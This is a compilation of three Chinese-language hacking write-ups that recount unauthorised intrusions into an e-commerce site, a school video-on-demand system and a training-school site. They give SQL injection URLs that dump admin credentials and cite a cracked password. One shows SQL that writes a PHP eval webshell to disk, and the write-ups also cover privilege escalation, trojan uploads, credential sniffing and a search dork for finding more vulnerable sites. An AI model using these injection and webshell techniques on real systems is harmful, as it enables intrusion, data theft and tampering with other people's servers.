http://www.xxxxx.com/comment/comment.php?field=content%3D(select%20schema_name%20from+information_schema.SCHEMATA%20limit%201,1)+where+commentid%3D719%23&action=vote
```


图4

于是再次爆出 ecshop 的密码，如图5。

```text
http://www.xxxxx.com/comment/comment.php?field=content%3D(select+concat(user_name,0x3a,password)+from+yudu_gouwu.ecs_admin_user+limit+0,1)+where+commentid%3D719%23&action=vote
```


图5

这次这个 MD5 直接被破解网站解密了为：windows671114。登录后台，ECSHOP 后台拿 SHELL 方法挺多的，前面我们已经知道了是 root 权限，所以直接 outfile 就行。如果不是 root，用 ecshop 后台的数据库备份功能也能拿 shell。这里我们就直接 outfile 吧。Outfile 要知道网站的物理路径，我们可以用 use 数据库名爆出网站物理路径，如图6。


图6

> ### 小常识
> use 数据库：在这个 SQL 查询功能中默认用的数据库就是本网站的数据库，开发者设计的时候不会考虑你去 use 其他的数据库，所以这里你用“use 数据库名”这句时，会产生一个警告，但并不影响 SQL 的运行，却可以成功爆出网站的路径。


ComsenzEXP！怪不得我怎么猜都猜不到它路径。然后直接用 ECSHOP 提供的执行 SQL 语句功能导出一句话了。

```sql
create table a(cmd text not null);
insert into a(cmd) values('<?php eval($_POST[cmd]);?>');
select cmd from a into outfile 'D:\\ComsenzEXP\\www-root\\eouyu\\help.php';
drop table if exists a;
```

导出成功，如图7。拿到 shell，然后 UDF 提权，最后导出系统 HASH，用表跑出来后才发现原来这管理员安全意识也不高，3389 密码和 ECSHOP 一样的，悲剧！图8。

## 由学校检测51安全的苏亚星VOD点播系统V5.0漏洞

雪儿

大学毕业后，好久没有回到校园了！听同学说学校现在变化很大，好怀念自己的校园生活，去母校网站看看 www.dyxy.net，如图1。记得快毕业的时候，当时把自己愁坏了。由于我在学校忙于摄影协会工作，耽误了好多课程，最后还挂了两门功课呢！我们学校女生挂科的可不多啊！好在计算机协会会长核心和成员光三等人在我软硬夹击下，我们成功拿下了学校成绩服务器。当时想好了，如果补考不过，我就只有改成绩这条路了（以后别学我，这是违法的），本小姐一向可是敢做敢当的，嘿嘿！好在老天照顾，我如愿以偿地都补考过了。于是那个罪恶的想法也一直没有实施！

内部最先被攻破，所以当时比较好弄啊！现在他们几个都不在，我又处在外网，对我再次渗透是一个挑战啊！如图2。


当时在学校机房，通过 Cain 嗅探，我们几个搞到了学校成绩服务器的 SQL Server 管理员密码。由于都是在内网，城墙总是在……

点开各个栏目，基本都是以 htm 结尾的，http://www.dyxy.net.cn。如图3，这个分站倒是 asp 连接的，我尝试了一下手工和工具注入，都不行！又试了下 cookie 注入，也不行！

网站常规入侵手段都用上了，没什么用，怎么办呢？难道要放弃？这可不是本小姐的性格。好歹我也做了三年的会长，办什么事情可都是雷厉风行的啊！嘿嘿！说办就办的！当我点到网络服务这个栏目的时候，有个学院视频，如图4。

## 一个人的战争

点击后发现也是 ASP 连接的，如图5。找了个连接 http://vod.dyxy.net/vod2005/vodweb/affiche.asp?ID=6，试了一下手工注入，就是用经典的 and 1=1 和 and 1=2，结果不行，拿出啊D，把这个连接填上，结果马上就出来了。

竟然是 sa 权限啊！太激动了！剩下的事情就好说了，我试了下也能列目录，如图7。

于是差异备份上传小马然后再传大马，这对我来说只是力气活了。最后我传上了个核心给的 ASPX 木马，发现可以运行，而且还是 system 权限，不知道我们学校的管理员怎么整的？

强烈 BS 一下啊！账户 1234 就是我新建的，如图8，运行了一下 ipconfig /all 果然是在内网！接下来渗透就可以继续进行了！

接着我看了一下这个点播系统的版面，如图9。是南京苏亚星资讯科技开发有限公司开发的点播系统，在网上搜索了一下，看介绍是一套商业软件，价格还是相当高的！如图10。

我又通过关键字 vodweb/affiche.asp 用 Google 搜索了一下，找到了好几个站都是采用着这套系统，大家可以搜索一下看看，以下是其中的一个站，如图11。

结果都寄托在 SQL 注入漏洞，都是 sa 权限。在这里也希望广大黑迷哥哥弟弟姐姐妹妹不要搞破坏，本小妞在这里先谢谢大家了！要不有什么后果我可不负责啊！娃哈哈！

没想到一套大型商业软件竟然存在这样低级的漏洞，看来我们中国的软件行业技术还真得有待提高啊！也希望广大黑迷一起努力加油，共同来建设我们中国的网络长城！

（文章中所涉及到的 ASPX 木马已收录在本期光盘中）

## 菜鸟入侵北京XX北大青鸟

兴东

今天没有什么事，就决定找个目标去搞搞练练手，最后锁定目标就是北京的 XX 北大青鸟。原因很简单，我也在北大青鸟上学。

我搞站一般都是先找网站有没有注入点，如果没有点再从别的地方入手，这次也不例外。目标网站用的程序是用 ASP 写的，我先用 Google 搜索目标网站带有参数的链接，类似“?id=xx”这样的链接（如图1）。

我仔细地测试了每一个带参数链接，找到了个注入点，URL 为“http://www.xxxxx.net/schabout.asp?bigclassid=51”。我提交 and 1=1 返回正常，如图2；提交 and 1=2 返回错误（如图3），确定存在注入。

既然存在注入，就先搞到后台账户密码，然后进后台想办法拿 Shell。穿山甲跑出的表信息中有 admin 表，接着跑出了字段名和字段的值，密码是 MD5 加密的（如图4），放到“www.cmd5.com”破解出了一个账户的明文。

现在账号、密码有了，还没有后台。我用 wwwcvs 扫描器扫了下目录，找到了网站上的后台，但是用刚才猜解的密码登录都登录不进去。我又换了好几个存在 user-name 和 password 字段的表，爆破出来的账号密码也都不能登录，郁闷了……

这时候我仔细看了下 wwwcvs 的扫描结果，从扫描结果来看还存在一个论坛，用的是动网的程序（如图5），扫描结果中也扫到了论坛默认数据库，成功下载了下来（如图6）。

用明小子的数据库查看功能找到了论坛的账号和密码，论坛的后台地址为“bbs/admin_login.asp”（如图7）。悲剧再次发生，用刚才从下载的数据库里得到的账号密码还是无法登录……

无奈我又看了看 wwwcvs 的扫描结果，目标站还存在“FCKeditor”，这让我信心大增（如图8）。

我试了试 FCKeditor 常见的漏洞，但是上传都失败了……不幸再次降临到我的头上。我又来看扫描结果，这次没有让我失望，扫描结果中有一个 XML 文件（如图9），这个 XML 文件上保存着好多网站上文件的信息。经过仔细查看，发现有“upmcl.asp, upme.htm”这类文件，我访问这些文件也确实存在（如图10）。

我试着上传一个“echo.asp;jpg”这种后缀的马，但是我又受到了严重的打击，直接跳到了错误页面，这样的页面也不能利用。这时候我发现论坛的目录下有“UploadFile”目录，在这个目录下的一个 ASP 文件引起了我的注意（如图11），直觉告诉我，这个文件肯定不简单。我试着访问了一下，你猜是什么，是个小马（如图12）。

看来已经有前人来过了，真是踏破铁鞋无觅处，得来全不费功夫。我用那个小马上传了一个大马，就这样拿到 WebShell。